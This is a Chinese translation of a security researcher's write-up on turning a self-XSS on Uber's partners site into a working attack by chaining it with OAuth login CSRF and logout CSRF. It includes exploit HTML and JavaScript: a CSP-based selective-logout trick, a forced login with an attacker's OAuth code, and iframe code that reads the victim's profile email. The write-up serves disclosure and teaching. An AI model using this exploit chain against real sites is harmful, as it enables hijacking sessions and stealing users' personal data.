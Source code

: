 # Uber三个鸡肋漏洞的妙用

0x00 简介
=====

作者通过精心设计，将一个鸡肋的的self-XSS和两个鸡肋的csrf变成了一个高质量的漏洞。

原文：  
[https://fin1te.net/articles/uber-turning-self-xss-into-good-xss/](https://fin1te.net/articles/uber-turning-self-xss-into-good-xss/)

在Uber一个设置个人信息的页面上，我找到一个非常简单且经典的XSS漏洞。设置项中随便修改一个字段为`<script>alert(document.domain);</script>`就可以执行并弹框。

![uber-partners-xss-1-1](http://drops.javaweb.org/uploads/images/bfb7eeb6efde34fdcdc1b4a5809fb9aceb0eb10c.jpg)

![uber-partners-xss-1-1](http://drops.javaweb.org/uploads/images/d1bcf45cdc239e2cc77a1f862215ae729879bb27.jpg)

一共花了两分钟找到这个漏洞，但是我们要来点更有意思的。

0x01 self-XSS
=====

可以在网页中运行外界可控的任意JS脚本就被称为XSS漏洞，这时候你一般可以去读取其他用户的Cookies，或者发出一些请求。但是如果你只能对自己做这些，而不是其他用户，比如这段代码只会在你能看到的页面里面运行，这就被称为self-XSS。这种情况下，即使我们发现了漏洞，也很难去影响其他人。

我犹豫了一会，但是我后来决定试试，看能不能去掉这个"self"。

0x02 Uber OAuth 登录流程
=====

Ubser的OAuth登录流程也是很经典的

*   用户访问Uber某个需要登录的网站，比如`partners.uber.com`
*   用户被重定向到授权服务器，比如`login.uber.com`
*   用户输入账号密码
*   用户重定向回到`partners.uber.com`，同时URL中携带`code`，可以用来换取Access Token

![uber-partners-xss-2](http://drops.javaweb.org/uploads/images/3699206542f721f620e311962e076e8d831ed53f.jpg)

从上面的截图你可以看到，OAuth的回调地址`/oauth/callback?code=...`并没有使用标准推荐的`state`参数，这意味着登录功能存在CSRF的问题，但是不好说会不会造成严重的问题。

同时，在退出登录的地方也有一个CSRF漏洞，当然这一般不会认为是漏洞。访问`/logout`会清除用户`partner.uber.com`的session，然后再重定向到`login.uber.com`的退出登录页面，清除`login.uber.com`的session。

因为我们的payload只存在于自己的账号中，我们可以让其他用户登录进我们的账号，然后payload就会执行，不过登录我们的账号会清除他们之前所有的session，这就让漏洞大打折扣了。所以我们要把漏洞放在一起利用。

0x03 捆绑利用漏洞
=====

我们的计划就是这样的了

*   首先，让用户登出`partner.uber.com`，但是不要登出`login.uber.com`，这样后面可以让用户重新回到原有账号
*   然后，让用户登录我们的账号，这样payload就会执行
*   最后，用户登录自己的账号，但是我们的payload仍然在运行，这样就可以盗取信息了

### 第一步 只在一个域名退出登录

首先发送一个请求到`https://partners.uber.com/logout/`，然后就可以登录我们的账号了。但是问题在于退出登录的重定向最终会到达`https://login.uber.com/logout/`，导致另外一个域名也退出登录。我们能不能控制呢？

我的方法就是使用Content Security Police来设置可以加载的域名。我只设置了允许请求`partners.uber.com`，`login.uber.com`就会被浏览器拦截。

```
<!-- 设置CSP策略阻止访问 login.uber.com -->
<meta http-equiv="Content-Security-Policy" content="img-src https://partners.uber.com">
<!-- 退出登录 partners.uber.com -->
<img src="https://partners.uber.com/logout/">

```

这样是可以的，CSP会有下面的提示

![uber-partners-xss-3](http://drops.javaweb.org/uploads/images/8503b6c0ca08e58de8f20095d5afe845ddb9cdfe.jpg)

### 第二步 登录我的账号

这一步相对来说简单了一些，我们向`https://partners.uber.com/login/`发送一个请求（这一步是必须的，否则我们没法接收到回调）。上面我们用了CSP的trick来阻止部分流程，这里我们就需要用我自己的`code`来让用户登录了。

因为CSP会触发`onerror`，我们就可以在那里面跳转到下一步了。

```
<!-- CSP策略会阻止访问 login.uber.com -->
<meta http-equiv="Content-Security-Policy" content="img-src partners.uber.com">
<!-- 退出登录 partners.uber.com，在跳转到login.iber.com的时候触发onerror -->
<img src="https://partners.uber.com/logout/" onerror="login();">
<script>
    //初始化登录
    var login = function() {
        var loginImg = document.createElement('img');
        loginImg.src = 'https://partners.uber.com/login/';
        loginImg.onerror = redir;
    }
    //用我们的code登录
    var redir = function() {
        // 为了方便测试，code放在url hash中，实际需要动态的获取
        var code = window.location.hash.slice(1);
        var loginImg2 = document.createElement('img');
        loginImg2.src = 'https://partners.uber.com/oauth/callback?code=' + code;
        loginImg2.onerror = function() {
            window.location = 'https://partners.uber.com/profile/';
        }
    }
</script>

```

### 第三步 回到原来的账号

这一部分的代码将会有XSS的payload，在我的账号中。

只要payload一运行，就可以切换回原来的账号了。这个必须在iframe中，因为需要保持payload一直运行。

```
// 创建一个iframe，让用户退出登录我的账号
var loginIframe = document.createElement('iframe');
loginIframe.setAttribute('src', 'https://fin1te.net/poc/uber/login-target.html');
document.body.appendChild(loginIframe);

```

iframe里面还是用CSP的trick

```
<meta http-equiv="Content-Security-Policy" content="img-src partners.uber.com">
<img src="https://partners.uber.com/logout/" onerror="redir();">
<script>
    //使用用户login.uber.com的session重新登录
    var redir = function() {
        window.location = 'https://partners.uber.com/login/';
    };
</script>

```

最后一部分是创建另外一个iframe，这样可以获取一些数据了

```
//等待几秒，加载个人信息页面，这是用户原始的信息
setTimeout(function() {
    var profileIframe = document.createElement('iframe');
    profileIframe.setAttribute('src', 'https://partners.uber.com/profile/');
    profileIframe.setAttribute('id', 'pi');
    document.body.appendChild(profileIframe);
    //提取email信息
    profileIframe.onload = function() {
        var d = document.getElementById('pi').contentWindow.document.body.innerHTML;
        var matches = /value="([^"]+)" name="email"/.exec(d);
        alert(matches[1]);
    }
}, 9000);

```

因为我们最终的这个iframe是在个人信息页面加载的，是同源的，而且`X-Frame-Options`也是设置的`sameorigin`而不是`deny`，所以我们使用`contentWindow`是可以访问到里面的内容的。

![uber-partners-xss-5](http://drops.javaweb.org/uploads/images/0bf50a232ec72274536a55d48f25cfdde5a9ea26.jpg)

### 综合在一起

*   将第3步payload加入个人信息中
*   登录自己的账号，取消回调，拿到还未用过的`code`
*   让用户访问我们在第2步中创建的页面
*   这样用户就会退出登录，然后重新登录到我的账号
*   第3步的payload就会执行
*   在隐藏的iframe中，退出登录我的账号
*   在另外一个隐藏的iframe中，重新登录用户的账号
*   这样我们就有了一个同源的有用户session的iframe了

这个漏洞很有意思，启发我们要在一个更高的层面去挖掘和思考安全漏洞。